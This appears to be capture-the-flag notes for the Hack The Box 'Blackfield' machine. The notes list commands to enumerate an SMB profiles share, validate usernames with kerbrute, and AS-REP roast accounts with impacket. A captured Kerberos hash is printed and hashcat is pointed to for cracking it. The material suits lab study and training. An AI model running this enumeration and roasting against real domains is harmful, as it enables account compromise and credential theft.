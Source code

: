 
##### Download the profiles
```bash
smbclient //blackfield.local/profiles$
```

##### Get the user list by Mounting and list users
```bash
sudo mount -t cifs //$IP/profiles$ /mnt
```

use -1 in ls to print only the directories one per line:
```bash
ls -1 /mnt/ > users
```

### Check valid users first
```bash
/opt/kerbrute_linux_amd64 userenum -d blackfield.local --dc $IP users.txt
```

[+] VALID USERNAME:       audit2020@blackfield.local
[+] VALID USERNAME:       support@blackfield.local
Date & Time >  [+] VALID USERNAME:       svc_backup@blackfield.local

```bash
echo "audit2020@blackfield.local" > valid_users.txt
echo "support@blackfield.local" >> valid_users.txt
echo "svc_backup@blackfield.local" >> valid_users.txt
```

### UF_DONT_REQUIRE_PREAUTH set to true
https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#as-rep-roast

```bash
impacket-GetNPUsers blackfield.local/ -dc-ip $IP -no-pass -usersfile valid_users.txt 

for user in $(cat users); do ./GetNPUsers.py -no-pass -dc-ip $IP blackfield.local/$user ; done
for user in $(cat users); do ./GetNPUsers.py -no-pass -dc-ip $IP blackfield.local/$user | grep krb5asrep; done

# Or use usersfile instead of for loop

./GetNPUsers.py blackfield.local/ -no-pass -usersfile users -dc-ip $IP | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'

$krb5asrep$23$support@BLACKFIELD.LOCAL:8a1e7ddb1873d327b07f1ab17984ec19$2aefece1a101fca7f6ba50b9566d0820ff6c0aa69bc4fbb1c0fb522a47c9bcfeca825a52f0f80f8e9e24adee03954637d8e13a99147f7d0f5a7704e8fe9859393c279cd0f6df14014a61ef3c0193191656bc4da3f7a8f91aaed8d0b65918d7db56fbff01a46233584f1f438ce82d79e78be99644673b097ed69ae997aeab3c3d724d506cc7d2887ea3a71a35d9fb383ed2479262ca2819026dcdf01ffa013911e83ffacaad656916804a74e228b5992bff6d1b2e1959633cb7db64eee5c5f33a15bc7fe5c
```

### hashcat as usual
`hashcat --example-hashes | grep krb5asrep -B5`
